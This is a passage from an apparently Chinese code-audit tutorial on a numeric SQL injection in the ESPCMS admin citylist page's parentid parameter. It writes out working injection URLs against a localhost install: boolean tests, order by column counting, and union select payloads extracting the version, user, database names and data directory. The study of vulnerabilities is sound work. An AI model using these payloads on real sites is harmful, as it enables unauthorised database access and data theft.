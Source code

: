 `http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 and 1=2`



<figure>
<a><img src="{{site.url}}/attaches/2018-04-22-codes-audit-basic-espcms-numeric-sqli/1524214297384.png"></a>
</figure>

构造 3 个 `parentid` 的值，验证了漏洞存在。

```
http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1'
// 加引号后，报错

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 and 1=1
// 和 parentid=1 的结果一致

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 and 1=2
// 因为查询条件为 False，没有结果

```

通过 order by 或 union select 来获取一些数据库信息。需要注意的是，在拼接的查询中，不能有引号、反斜线等字符，会被转义成前面加上反斜线的形式。

```
http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 order by 6
// 当尝试到 order by 6 后，返回出错信息，说明数据表为5列

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1 union select 1,2,3,4,5
// 显示 3，说明 parentid 是表的第 3 列

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1 union select 1,2,version(),4,5
// 修改 3 为要获取的信息

数据库版本：version() 
当前 MySQL 用户： user()
当前数据库名： database()
数据库路径： @@datadir
操作系统版本： @@version_compile_os
获取所有数据库名：
http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1 union select 1,2,group_concat(schema_name),4,5 from information_schema.schemata

```

这里就简单列了下常用的注入语句，更多的注入语句，考虑单独写一篇笔记进行总结。

利用 MySQL 的客户端查询下数据表结构，验证下上面的结果。

```
mysql> desc espcms_city;
+------------+----------------------+------+-----+---------+----------------+
| Field      | Type                 | Null | Key | Default | Extra          |
+------------+----------------------+------+-----+---------+----------------+
| id         | smallint(5) unsigned | NO   | PRI | NULL    | auto_increment |
| parentid   | smallint(5) unsigned | NO   | MUL | 0       |                |
| cityname   | varchar(120)         | NO   |     | NULL    |                |
| regiontype | tinyint(1)           | NO   | MUL | 2       |                |
| agencyid   | smallint(5) unsigned | NO   | MUL | 0       |                |
+------------+----------------------+------+-----+---------+----------------+
5 rows in set (0.04 sec)
```
